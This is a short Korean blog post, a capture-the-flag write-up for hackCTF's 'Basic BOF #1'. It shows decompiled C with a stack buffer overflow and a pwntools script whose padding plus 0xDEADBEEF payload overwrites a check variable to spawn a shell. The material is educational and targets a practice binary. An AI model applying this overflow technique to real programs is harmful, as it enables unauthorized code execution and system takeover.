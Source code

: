 ```yaml
---
layout: post
title:  "[hackCTF]Basic BOF #1"
date:   2020-02-09
---
```

hackCTF pwnable 첫번째 문제

## ida
***
```
  int __cdecl main(int argc, const char **argv, const char **envp)
  {
    char s; // [esp+4h] [ebp-34h]
    int v5; // [esp+2Ch] [ebp-Ch]

    v5 = 67305985;
    fgets(&s, 45, stdin);
    printf("\n[buf]: %s\n", &s);
    printf("[check] %p\n", v5);
    if ( v5 != 67305985 && v5 != -559038737 )
      puts("\nYou are on the right way!");
    if ( v5 == -559038737 )
    {
      puts("Yeah dude! You win!\nOpening your shell...");
      system("/bin/dash");
      puts("Shell closed! Bye.");
    }
    return 0;
```   
코드를 보면 v5가 -559038737일 때 shell을 실행할 수 있다.   
우리가 직접 수정할 수 있는 건 s이다.   
payload를 v5까지 덮을 수 있도록 만들자.




## exploit.py
***
```
  #!/usr/bin/python
  from pwn import *
  
  p = process('./bof_basic')

  payload = "A"*(0x2c-0x4)+p32(0xDEADBEEF)

  p.sendline(payload)

  p.interactive()
```
-559038737는 hex로 0xDEADBEEF다. p32 방식으로 패킹해서 payload를 만들면 끗.

p32 : little endian 방식으로 패킹해줌 (u32 : 언패킹)
